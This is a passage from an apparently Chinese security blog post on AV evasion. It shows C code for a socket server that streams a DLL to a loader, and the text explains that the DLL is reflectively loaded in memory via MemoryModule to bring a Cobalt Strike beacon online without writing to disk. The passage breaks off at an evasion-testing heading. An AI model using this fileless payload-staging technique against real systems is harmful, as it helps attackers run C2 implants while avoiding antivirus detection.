 ```c
  
        char buffer[BUFFER_SIZE];  
        //bzero(buffer, sizeof(buffer));     
        
        printf("[+]Sending DLL\n");
        //bzero(file_name, sizeof(file_name));
        //strncpy(file_name, buffer, strlen(buffer) > FILE_NAME_MAX_SIZE ? FILE_NAME_MAX_SIZE : strlen(buffer));  
		sleep(2);
        //strcpy(file_name, filename);

        FILE *fp = fopen(file_name, "r");  
        if (fp == NULL)  
        {  
            printf("File:%s Not Found!\n", file_name);  
        }  
        else  
        {  
            bzero(buffer, BUFFER_SIZE);  
            int file_block_length = 0;  
            while( (file_block_length = fread(buffer, sizeof(char), BUFFER_SIZE, fp)) > 0)  
            {  
                printf("[+]file_block_length = %d\n", file_block_length);  
  
                // 发送buffer中的字符串到new_server_socket,实际上就是发送给客户端  
                if (send(new_server_socket, buffer, file_block_length, 0) < 0)  
                {  
                    printf("Send File:\t%s Failed!\n", file_name);  
                    break;  
                }  
  
                bzero(buffer, sizeof(buffer));  
            }  
            fclose(fp);  
            printf("[+]File:%s Transfer Finished!\n", file_name);  
        }  
  
        close(new_server_socket);  
    }  
  
    close(server_socket);  
  
    return 0;  
}
```

​	可以发现我们`accept`之后sleep了两秒，其实再长一些更好，这里如果直接这样等待连接的话客户端，也就是加载器那边直接接收的话，是会出现问题的，我在倾旋师傅的项目Cooolis的源码里也看到了他对于这个的处理(每次看大佬们的代码会学习到很多东西)

​	最后，通过这个直接就可以远程通过`Memorymodule`项目反射加载我们的DLL进行上线CS，达到恶意代码不落地的效果。

### 0x04 免杀测试

